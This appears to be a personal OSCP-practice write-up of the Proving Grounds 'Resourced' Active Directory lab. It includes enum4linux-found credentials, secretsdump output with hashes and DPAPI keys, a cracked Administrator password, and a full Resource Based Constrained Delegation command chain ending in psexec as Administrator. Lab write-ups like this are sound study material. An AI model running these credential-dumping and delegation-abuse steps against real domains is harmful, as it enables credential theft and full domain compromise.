 # Resourced Writeup
Name: Resourced
Date:  28/09/2022
Difficulty:  Intermediate
Goals:  
- OSCP Prep 1/5 Medium Boxes in a day, writeups allowed
- Improving Noting with BoxedName-Notes.md 
Learnt:
- Wonders of secrets dump
- Sometimes escaping white is -7 worth of problem solving 
- Impacket is awesome
- Resource Based Contrained Delegation
- Exfiltrate everything, dont skip trying to exfiltrate
- Be more methodical noting TODO when handling data 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Resourced/Screenshots/ping.png)

Resourced is a Active Directory box.
Guest Account disabled. But through enum4linux we get credentials:
![](passwordreminders.png)

V.Ventz HotelCalifornia194!

![](smbclientvventz.png)

`Password\ Audit` got me.

[Extract and Crack NDTS](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)

This is what I had:
```
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
```

Then went back after trying this as I had never seen this sort of output other than dpapi keys
`cd "Active Directory\ `

I tried various ways of logging in rdp, winrm, psexec with various accounts
![](nordp.png)

```bash
impacket-secretsdump -ntds ntds.dit -system  system LOCAL > bigdump
cat bigdump | grep ::: | awk -F: '{print $4}'
# Crackstation the hases
Administrator 12579b1666d4ac10f0f59f300776495f : ItachiUchiha888
```

I then exeperienced a rabbit hole with AD having all the hashes like that then I tried forging tickets, I thought I had crackmapexec L.Livingston as I saw he was a sysadmin...

![](ticketer.png)

## Foothold

L.Livingston is a sysadmin.
Regardless I have not the time left I so learnt some Resource Based Contrained Delegation

## PrivEsc

![](Livingstone.png)

Resource Based Contrained Delegation
```bash
# Kali - create a new machine account on the domain
impacket-addcomputer $domain.local/$user -dc-ip $domaincontroller-ip $domaincontroller-ip  -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
# Target - Verify 
PS > get-adcomputer attack

# Kali - Get delegation rights script to manage delegation rights
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
# set sDS-AllowedToActOnBehalfOfOtherIdentity on new machine account
sudo python3 rbcd.py -dc-ip $domaincontroller-ip -t $target -f 'ATTACK' -hashes :$hash $domain\\$user

# Target - Verify
PS> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

# Kali - Get administrator service ticket
impacket-getST -spn cifs/$dc.$domain.local $domain/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip $domaincontroller-ip 
# export the KRB55CCNAME so that impacket can load the .ccache file
export KRB5CCNAME=./Administrator.ccache
# Append /etc/hosts file with 
sudo sh -c 'echo "$domaincontroller-ip $domain.local dc.$domain.local" >> /etc/hosts'
# Psexc in!
sudo impacket-psexec -k -no-pass $dc.$domain.local -dc-ip $domaincontroller-ip
```

![](stepOne.png)
![](stepTwo.png)
![](stepThree.png)
![](stepFour.png)
![](stepFive.png)
![](wow.png)